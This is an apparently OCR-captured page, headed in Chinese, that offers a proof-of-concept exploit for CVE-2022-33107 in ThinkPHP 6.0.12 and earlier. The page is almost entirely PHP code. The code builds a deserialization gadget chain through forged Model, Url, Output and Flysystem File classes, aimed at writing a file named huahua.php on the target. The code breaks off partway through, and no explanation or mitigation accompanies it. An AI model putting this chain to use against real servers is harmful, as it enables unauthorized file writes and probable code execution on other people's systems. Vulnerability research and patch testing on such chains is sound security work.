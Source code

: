 ## CVE-2022-33107

### 适用范围

thinkphp<=6.0.12  
Poc:

```bash
<?php
namespace think\model\concern{
    trait Attribute{
        private $data = ['huahua'];
    }
}

namespace think\view\driver{
    class Php{}
}
namespace think\session\driver{
    class File{

    }
}
namespace League\Flysystem{
    class File{
        protected $path;
        protected $filesystem;
        public function __construct($File){
            $this->path='huahua.php';
            $this->filesystem=$File;
        }
    }
}
namespace think\console{
    use League\Flysystem\File;
    class Output{
        protected $styles=[];
        private $handle;
        public function __construct($File){
            $this->styles[]='getDomainBind';
            $this->handle=new File($File);
        }
    }
}
namespace think{
    abstract class Model{
        use model\concern\Attribute;
        private $lazySave;
        protected $withEvent;
        protected $table;
        function __construct($cmd,$File){
            $this->lazySave = true;
            $this->withEvent = false;
            $this->table = new route\Url(new Middleware,new console\Output($File),$cmd);
        }
    }
    class Middleware{
        public $request = 2333;
    }
}

namespace think\model{
    use think\Model;
```